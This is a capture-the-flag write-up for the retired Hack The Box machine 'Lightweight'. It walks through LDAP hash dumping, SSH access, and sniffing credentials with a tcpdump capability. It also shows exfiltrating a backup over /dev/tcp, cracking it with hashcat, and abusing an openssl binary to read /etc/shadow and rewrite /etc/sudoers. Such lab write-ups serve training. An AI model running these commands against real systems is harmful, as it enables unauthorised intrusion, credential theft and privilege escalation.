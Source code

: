 # Lightweight

This is the write-up for the box Lightweight that got retired at the 11th May 2019.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.119    lightweight.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/lightweight.nmap 10.10.10.119
```

```markdown
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (ED25519)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

## Checking LDAP (port 389)

Lets check if we have anonymous authentication with **ldapsearch**:
```markdown
ldapsearch -x -h 10.10.10.119
```

It gives us a response and we can specify the search scope as _base_:
```markdown
ldapsearch -x -h 10.10.10.119 -s base namingcontexts

#
dn:
namingContexts: dc=lightweight,dc=htb
```

Search through that branch:
```markdown
ldapsearch -x -h 10.10.10.119 -b 'dc=lightweight,dc=htb'
```

Now we dumped the information of this branch and there are two users:
```markdown
dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
uid: ldapuser1
mail: ldapuser1@lightweight.htb
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JDNxeDBTRDl4JFE5eTFseVFhRktweHFrR3FLQWpMT1dkMzNOd2Roai5sNE16Vjd2VG5ma0UvZy9aLzdONVpiZEVRV2Z1cDJsU2RBU0ltSHRRRmg2ek1vNDFaQS4vNDQv

dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
uid: ldapuser2
mail: ldapuser2@lightweight.htb
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdmszYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x

userPassword:: e2NyeXB0fXg=
```

When decoding the hashes with Base64 we get the following output:
```markdown
ldauser1:
{crypt}$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/

ldapuser2:
{crypt}$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1

userPassword:
{crypt}x
```

The **$6$** indicates that this is **SHA512 encrypted** which can be found in the hashcat-example list and we can try to crack these hashes:
```markdown
hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
```

This won't crack the hashes unfortunately.

## Checking HTTP (Port 80)

On the web page we get the information that it is protected against brute-forcing.
The _/user.php_ tells us that the server lets us get in with SSH:
> This server lets you get in with ssh. Your IP (10.10.14.23) is automatically added as userid and password within a minute of your first http page request. We strongly suggest you to change your password as soon as you get in the box.

## Checking SSH (Port 22)

As the web server told us, we can SSH into the box:
```markdown
ssh 10.10.14.23@10.10.10.19
```

The password is the same as our IP and we are logged in on the box.

Lets execute the enumeration script **LinEnum.sh** on this box to get more information about it.
```markdown
curl 10.10.14.23/LinEnum.sh | bash
```

Interestingly our user has the **POSIX capability** to execute the command _tcpdump_ as root which means we don't have command execution but have the permission to sniff traffic. Additionally we know the name of the network interface we will need for this procedure.
```markdown
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

### Sniffing traffic

We will use _tcpdump_ with SSH so we won't write anything to the disk itself:
```markdown
ssh 10.10.14.23@10.10.10.119 "/usr/sbin/tcpdump -i ens33 -U -s0 -w - 'not port 22'" > lightweight.ens33.cap
```

Now we can run Wireshark with the capture file:
```markdown
wireshark lightweight.ens33.cap
```

While that runs we can sniff the live traffic on the _localhost_ interface:
```markdown
ssh 10.10.14.23@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

If we refresh all the pages on the web server we get some information on the localhost interface of the box:

![Wireshark on localhost](lightweight_wireshark-1.png)

When following the LDAP request, we see that _ldapuser2_ authenticates on the box with a password:

![Wireshark on localhost](lightweight_wireshark-2.png)

Password of _ldapuser2_:
> 8bc8251332abe1d7f105d3e53ad39ac2

Trying this password to change to the user:
```markdown
su - ldapuser2
```

The password works and we are authenticated as _ldapuser2_!

## Privilege Escalation

In the home directory of this user is a file called _backup.7z_ that we download to our local box.
```markdown
# On local machine:
nc -lvnp 9001 > backup.7z

# On the box:
cat backup.7z > /dev/tcp/10.10.14.23/9001
```

Decompress the 7z file:
```markdown
7z x backup.7z
```

This file wants a password so we extract the hash.
```markdown
./7z2john.pl backup.7z
```

This will output a long string that we can try to crack with **Hashcat**.
```markdown
hashcat -m 11600 backup.hash /usr/share/wordlists/rockyou.txt
```

After a while Hashcat cracked it and the password for the 7z file is:
> delete

In this archive we find the PHP source code of the web page.
The file _status.php_ has the password of _ldapuser1_ in clear-text:
> f3ca9d298a553da117442deeb6fa932d

### Privilege Escalation to root

Now we can authenticate with both users and should escalate our privileges to root with the user _ldapuser1_.
In his home directory we find these files:
- ldapTLS.php
- capture.pcap
- openssl

When looking at the capabilities of this user we see that he has the same as ours for _tcpdump_ but he got different ones for **openssl**:
```markdown
getcap *

# Output
openssl =ep
tcpdump = cap_net_admin,cap_net_raw+ep
```

If we look at the `man capabilities` we can read the following:
> Note that one can assign empty capability sets to a program file, and thus it is possible to create a set-user-ID-root program that changes the effective and saved set-user-ID of the process that executes the program to 0, but confers no capabilities to that process.

This is the case for `openssl` so we are going to look at **GTFObins** to find a way to exploit this.
We can test the _File read_ one by reading the Shadows file which normally could only be read by root:
```markdown
./openssl enc -in /etc/shadow
```

It is important to use the `openssl` binary in the home folder of the user and it works.
So we can read the contents of **/etc/sudoers**, put it into a new file with sudo permissions for this user and write it back with `openssl`.
```markdown
# Write output to new file
./openssl enc -in /etc/sudoers > sudoers

# Add permissions in the new file
root            ALL=(ALL)       ALL
ldapuser1       ALL=(ALL)       ALL

# Replace old sudoers file with new one
cat ./sudoers | ./openssl enc -out /etc/sudoers
```

Now we can `sudo -l` with _ldapuser1_ and see that we have root permissions. With `sudo su -` we can become root!
